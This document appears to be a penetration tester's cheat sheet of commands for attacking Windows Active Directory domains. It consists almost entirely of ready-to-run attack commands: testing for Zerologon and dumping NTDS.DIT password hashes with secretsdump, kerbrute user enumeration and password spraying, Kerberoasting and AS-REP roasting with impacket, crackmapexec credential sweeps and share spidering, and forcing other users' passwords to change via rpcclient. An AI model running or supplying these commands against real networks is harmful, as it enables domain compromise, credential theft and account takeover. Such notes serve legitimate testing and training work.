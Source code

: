 - `python3 [zerologontester.py](http://zerologontester.py) <DC NAME> <IP>`

if the script confirms the vulnerability, we can use secretsdump to dump the NTDS.DIT file:

- `impacket-secretsdump <domain name>/<DC NAME>\$@<DC IP> -just-dc`
- the `$` presents an empty value/string

# If you have a Valid User(s) and or Password(s):

- `python3 [bloodhound.py](http://bloodhound.py) -ns <DC IP> -d <domain> -dc <DC hostname> -u <username> -p <password> -c All`

- `rpcclient -U '<username>' <IP>` then run `enumdomusers` with this you can try `GetUserSPNs` or `GetNPUsers`

- *NO PASS REQ* `./kerbrute userenum -dc <DC IP> -d <domain> users.txt`
    - if this command does not run (fails) try sync your attack machine time with the time of the domain controller because kerberos authentication requires that the times be synced:
        - `ntpdate <DC IP>`

- `./kerbrute passwordspray --dc <DC IP> -d <domain> users.txt <PASSWORD TO SPRAY>`
    - if this command does not run (fails) try sync your attack machine time with the time of the domain controller because kerberos authentication requires that the times be synced:
        - `ntpdate <DC IP>`

- `impacket-GetUserSPNs <domain name>/<username>:<password> -outputfile krbroast`

- *NO PASS REQ* `impacket-GetNPUsers -dc-ip <DC IP> -no-pass -usersfile users.txt <domain name>/` OR `impacket-GetNPUsers -dc-ip <DC IP> -no-pass <domain name>/<username>`

- `crackmapexec smb <DC IP or CIDR range> smb/winrm - u <username file> -p <password file> --no-bruteforce --continue-on-success`

- `crackmapexec smb <IP> -u <username> -p <password> --shares -M spider_plus`

- `crackmapexec smb <IP> -u <username> -p <password> -M spider_plus`
    - to list out the contents of the spider plus module, you have to use `jq` to parse the data. to list everything in all the found shares run `cat /tmp/cme_spider_plus/<IP>.json | jq '. | map_values(keys)'`
    
## Misc

### Change User Pass with `rpcclient`
If your current user has the `ForceChangePass` flag on another user which you can find in bloodhound, you can use rpcclient to change the password then maybe read shares with smbclient/cme or do more enumeration with the new user and password
be sure to try a password that might fit in a password policy

- `rpcclient -U <username>`

- `setuserinfo2 <username to change password> 23 '<new password>'`

### Change User Pass with `smbpasswd`
`smbpasswd -U <username> -r <Domain name or IP>`
